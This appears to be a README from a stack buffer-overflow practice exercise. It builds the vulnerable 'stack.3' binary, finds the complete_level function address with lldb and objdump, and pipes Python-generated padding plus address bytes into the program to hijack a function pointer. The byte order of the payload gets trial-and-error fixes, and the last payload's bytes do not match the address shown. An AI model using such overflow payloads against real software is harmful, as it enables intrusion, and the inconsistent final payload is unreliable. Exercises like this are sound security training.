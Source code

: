 ### How to

Build source code
```
clang main.cpp -o stack.3.bin
```

Run and exploit (first try)

```
lldb ./stack.3.bin
```

and execute the following command

```
(lldb) target create "./stack.3.bin"
(lldb) disassemble --name complete_level
```

getting the following data

```
stack.3.bin`complete_level:
stack.3.bin[0x100003e48] <+0>:  stp    x29, x30, [sp, #-0x10]!
stack.3.bin[0x100003e4c] <+4>:  mov    x29, sp
stack.3.bin[0x100003e50] <+8>:  adrp   x0, 0
stack.3.bin[0x100003e54] <+12>: add    x0, x0, #0xf18            ; "Congratulations, you've finished :-) Well done!\n"
stack.3.bin[0x100003e58] <+16>: bl     0x100003f0c               ; symbol stub for: printf
stack.3.bin[0x100003e5c] <+20>: mov    w0, #0x0
stack.3.bin[0x100003e60] <+24>: bl     0x100003ee8               ; symbol stub for: exit
```

the address of function - `0x0100003e48`

another option to get it is via

§```
objdump -d ./stack.3.bin | grep complete_level
```

and getting the following data

```
0000000100003e48 <__Z14complete_levelv>:
100003e50: 90000000     adrp    x0, 0x100003000 <__Z14complete_levelv+0x8>
```

Run exploit (first try)

```
python3 -c "print('A' * 64 + '\x48\x3e\x00\x00\x01'[::-1])" | ./stack.3.bin
```

getting wrong address - `calling function pointer @ 0x483e000001`

reversing list 

```
python3 -c "print('A' * 64 + ('\x01\x00\x00\x3e\xe8'))" | ./stack.3.bin
```